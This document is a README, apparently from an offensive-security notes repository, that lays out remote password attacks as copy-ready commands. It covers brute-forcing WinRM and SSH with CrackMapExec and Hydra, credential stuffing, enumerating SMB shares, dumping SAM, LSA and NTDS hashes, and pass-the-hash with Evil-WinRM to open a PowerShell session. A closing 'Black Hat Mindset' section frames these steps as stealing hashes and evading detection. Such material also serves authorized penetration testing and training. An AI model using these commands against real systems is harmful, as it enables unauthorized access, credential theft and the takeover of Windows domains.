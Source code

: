 # Basic Methodology - Remote Password Attacks

This README explores techniques for attacking remote services to crack passwords, enumerate shares, dump hashes, and establish sessions using stolen credentials.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Brute-Forcing with CrackMapExec (WinRM)](#brute-forcing-with-crackmapexec-winrm)
- [Enumerating SMB Shares with CrackMapExec](#enumerating-smb-shares-with-crackmapexec)
- [Brute-Forcing with Hydra](#brute-forcing-with-hydra)
- [Credential Stuffing with Hydra](#credential-stuffing-with-hydra)
- [Dumping SAM Hashes with CrackMapExec](#dumping-sam-hashes-with-crackmapexec)
- [Dumping LSA Secrets with CrackMapExec](#dumping-lsa-secrets-with-crackmapexec)
- [Dumping NTDS Hashes with CrackMapExec](#dumping-ntds-hashes-with-crackmapexec)
- [Pass-The-Hash with Evil-WinRM](#pass-the-hash-with-evil-winrm)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

Remote password attacks target network services to gain unauthorized access by cracking credentials, enumerating resources, or extracting password hashes. This guide covers using CrackMapExec for brute-forcing and hash dumping, Hydra for credential attacks, and Evil-WinRM for pass-the-hash exploitation, focusing on Windows targets (WinRM, SMB) and SSH.

## Setup and Prerequisites

### Environment
- Linux host with network access to the target system.
- Tools: Install `crackmapexec` (e.g., `apt install crackmapexec`), `hydra` (e.g., `apt install hydra`), and `evil-winrm` (e.g., `gem install evil-winrm`).

### Files
- `user.list`: List of usernames (e.g., administrator, user)
- `password.list`: List of passwords (e.g., `/usr/share/wordlists/rockyou.txt`)
- `user_pass.list`: List of username:password pairs for credential stuffing

### Requirements
- IP Address: Identify the target IP address (e.g., `<ip>`)
- Credentials: Have usernames, passwords, or hashes ready for attacks

## Brute-Forcing with CrackMapExec (WinRM)

Attempt to brute-force credentials over WinRM.

```bash
crackmapexec winrm <ip> -u user.list -p password.list
```

Example:
```bash
crackmapexec winrm 192.168.1.100 -u user.list -p password.list
```
Output: Identifies valid credentials (e.g., `[+] user:password`).

## Enumerating SMB Shares with CrackMapExec

List SMB shares using known credentials.

```bash
crackmapexec smb <ip> -u "user" -p "password" --shares
```

Example:
```bash
crackmapexec smb 192.168.1.100 -u "administrator" -p "password123" --shares
```
Output: Lists shares like `IPC$`, `ADMIN$`, `C$`.

## Brute-Forcing with Hydra

Guess credentials for various services using Hydra.

```bash
# Multiple users and passwords
hydra -L user.list -P password.list <service>://<ip>

# Single user, multiple passwords
hydra -l username -P password.list <service>://<ip>

# Multiple users, single password
hydra -l user.list -p password <service>://<ip>
```

Example:
```bash
hydra -L user.list -P password.list ssh://192.168.1.100
```
Output: Identifies valid credentials (e.g., `user:password123`).

## Credential Stuffing with Hydra

Perform a credential stuffing attack.

```bash
hydra -C <user_pass.list> ssh://<IP>
```

Example:
```bash
hydra -C creds.txt ssh://192.168.1.100
```
Note: `creds.txt` format: `user1:pass1\nuser2:pass2`

## Dumping SAM Hashes with CrackMapExec

Extract password hashes from the SAM database.

```bash
crackmapexec smb <ip> --local-auth -u <username> -p <password> --sam
```

Example:
```bash
crackmapexec smb 192.168.1.100 --local-auth -u administrator -p 'P@ssw0rd' --sam
```
Output: Dumps hashes like `Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`

## Dumping LSA Secrets with CrackMapExec

Extract LSA secrets from the target.

```bash
crackmapexec smb <ip> --local-auth -u <username> -p <password> --lsa
```

Example:
```bash
crackmapexec smb 192.168.1.100 --local-auth -u administrator -p 'P@ssw0rd' --lsa
```
Output: May reveal credentials like `DefaultPassword:plaintextpass`.

## Dumping NTDS Hashes with CrackMapExec

Extract hashes from the NTDS file (Domain Controller).

```bash
crackmapexec smb <ip> -u <username> -p <password> --ntds
```

Example:
```bash
crackmapexec smb 192.168.1.100 -u administrator -p 'P@ssw0rd' --ntds
```
Output: Dumps hashes like `user:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::`

## Pass-The-Hash with Evil-WinRM

Establish a session using a stolen hash.

```bash
evil-winrm -i <ip> -u Administrator -H "<passwordhash>"
```

Example:
```bash
evil-winrm -i 192.168.1.100 -u Administrator -H "31d6cfe0d16ae931b73c59d7e0c089c0"
```
Output: Opens a PowerShell session on the target.

## Black Hat Mindset

- **Brute-Force Efficiently**: Use CrackMapExec and Hydra to systematically guess credentials without triggering lockouts.
- **Extract Hashes**: Target SAM, LSA, and NTDS to steal hashes for cracking or pass-the-hash attacks.
- **Leverage Stolen Credentials**: Use pass-the-hash with Evil-WinRM to gain shells without passwords.
- **Stay Silent**: Limit brute-force attempts and use stolen hashes to avoid detection.

## Resources

- [CrackMapExec GitHub](https://github.com/byt3bl33d3r/CrackMapExec)
- [Hydra Manual](https://github.com/vanhauser-thc/thc-hydra)
- [Evil-WinRM GitHub](https://github.com/Hackplayers/evil-winrm)
- [Pass-The-Hash Guide](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)

